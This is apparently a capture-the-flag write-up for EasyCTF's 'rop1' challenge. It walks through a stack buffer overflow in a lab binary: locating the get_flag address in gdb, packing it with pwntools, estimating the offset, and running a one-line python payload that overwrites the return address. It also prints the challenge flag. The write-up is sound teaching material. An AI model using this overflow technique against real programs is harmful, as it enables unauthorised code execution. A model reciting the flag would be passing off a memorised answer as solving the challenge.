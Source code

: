 # rop1
Binary Exploitation - 100 points

## Challenge 
> Written by r3ndom

> Go to [`/problems/rop1`](./rop1) on the shell server and tell me whats in `flag.txt`.

## Solution

### 1. Get return address
	user72122@shell:/problems/rop1$ gdb rop1

	(gdb) info add get_flag
	Symbol "get_flag" is at 0x400646 in a file compiled without debugging.

### 2. Get little endian string
	# python
	>>> import pwn
	>>> pwn.p32(0x400646)
	'F\x06@\x00'

### 3. Find offset

From source, array is 64 bytes...

	void get_input()
	{
		char inp[64];
		gets(inp);
		printf("You said: %s\n", inp);
	}

Hence, offset is either 68 or 72.

Unfortunately, strace didn't work for some reason (si_addr shows 0)

	$ pwn cyclic 100
	$ echo 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa' | 
	strace ./rop1 
	(...)
	--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_ACCERR, si_addr=0} ---
	+++ killed by SIGSEGV (core dumped) +++



### 4. Make payload

	user72122@shell:/problems/rop1$ python -c 'print "\x00"*72 + "F\x06@\x00"' | ./rop1
	You said: 
	easyctf{r0ps_and_h0ps}


## Flag
`easyctf{r0ps_and_h0ps}`